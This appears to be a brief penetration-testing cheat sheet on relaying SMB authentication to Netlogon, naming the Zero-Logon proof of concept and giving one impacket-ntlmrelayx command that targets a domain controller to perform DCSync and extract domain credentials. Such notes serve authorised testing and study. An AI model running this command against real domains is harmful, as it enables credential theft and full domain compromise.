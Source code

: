 # SMB to Netlogon relay

## Tools: Zero-Logon , impacket-ntlmrelayx

## Commands:

 - Zero-Logon PoC

 - ntlmrelayx -t dcsync://DC02_IP -smb2support -auth-smb USER:PASSWORD (DC Sync)
